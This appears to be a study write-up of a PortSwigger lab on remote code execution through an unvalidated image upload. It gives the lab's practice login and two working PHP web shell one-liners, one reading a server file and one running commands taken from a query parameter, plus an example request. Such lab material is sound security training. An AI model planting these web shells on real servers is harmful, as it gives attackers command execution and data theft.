 # Lab: Remote code execution via web shell upload

## Description

 This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file */home/carlos/secret*. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: *wiener:peter* 

## Tips from portswigger

### Content-type response header

The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping.

### php webshells

A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint. 

#### Example to read a file on server

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

#### Example to execute a command

```php
<?php echo system($_GET['command']); ?>
```
 This script enables you to pass an arbitrary system command via a query parameter as follows: 
 
 ```html
GET /example/exploit.php?command=id HTTP/1.1
```
